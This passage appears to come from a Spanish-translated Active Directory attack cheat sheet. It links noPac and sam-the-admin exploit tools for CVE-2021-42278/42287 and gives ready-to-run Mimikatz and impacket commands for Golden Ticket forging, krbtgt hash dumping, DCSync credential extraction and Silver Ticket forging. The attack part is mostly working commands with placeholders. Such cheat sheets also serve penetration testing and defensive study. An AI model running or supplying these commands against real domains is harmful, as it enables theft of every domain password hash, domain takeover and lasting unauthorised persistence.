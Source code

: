 Esto debería generar un ticket importado correctamente, lo que permite a un atacante realizar diversas actividades maliciosas en el contexto del usuario DA, como un ataque DCSync.

### Sin PAC

- [Suplantación de nombre de cuenta sAMA](https://www.thehacker.recipes/ad/movement/kerberos/samaccountname-spoofing) Explotación de CVE-2021-42278 y CVE-2021-42287
- [Armamentización de CVE-2021-42287/CVE-2021-42278](https://exploit.ph/cve-2021-42287-cve-2021-42278-weaponisation.html) Explotación de CVE-2021-42278 y CVE-2021-42287
- [noPAC](https://github.com/cube0x0/noPac) Herramienta de C# para explotar CVE-2021-42278 y CVE-2021-42287
- [sam-the-admin](https://github.com/WazeHell/sam-the-admin) Herramienta automatizada de Python para explotar CVE-2021-42278 y CVE-2021-42287
- [noPac](https://github.com/Ridter/noPac) Evolución de la herramienta "sam-the-admin"

## Persistencia de Dominio

### Ataque Golden Ticket

```powershell
#Ejecutar mimikatz en el controlador de dominio como DA para obtener el hash krbtgt:
Invoke-Mimikatz -Command '"lsadump::lsa /patch"' -ComputerName <Nombre del controlador de dominio>

#En cualquier máquina:
Invoke-Mimikatz -Command '"kerberos::golden /user:Administrator /domain:<Nombre del dominio> /sid:<SID del dominio> /krbtgt:
<HashOfkrbtgtAccount> id:500 /groups:512 /startoffset:0 /endin:600 /renewmax:10080 /ptt"'
```

### Ataque DCsync

```powershell
#DCsync usando mimikatz (Se necesitan permisos de DA o privilegios DS-Replication-Get-Changes y DS-Replication-Get-Changes-All):
Invoke-Mimikatz -Command '"lsadump::dcsync /user:<DomainName>\<AnyDomainUser>"'

#DCsync usando secretsdump.py de impacket con autenticación NTLM
secretsdump.py <Dominio>/<Nombre de usuario>:<Contraseña>@<IP o FQDN del DC> -just-dc-ntlm

#DCsync usando secretsdump.py de impacket con Kerberos Autenticación
secretsdump.py -no-pass -k <Dominio>/<Nombre de usuario>@<IP o FQDN del controlador de dominio> -just-dc-ntlm
```

**Consejo:** \
/ptt -> inyectar ticket en la sesión actual \
/ticket -> guardar el ticket en el sistema para su uso posterior

### Ataque de ticket Silver

```powershell
Invoke-Mimikatz -Command '"kerberos::golden /domain:<Nombre de dominio> /sid:<SID del dominio> /target:<La máquina de destino> /service:
<Tipo de servicio> /rc4:<Hash NTLM de la cuenta del SPN> /user:<Usuario al que suplantar> /ptt"'
```
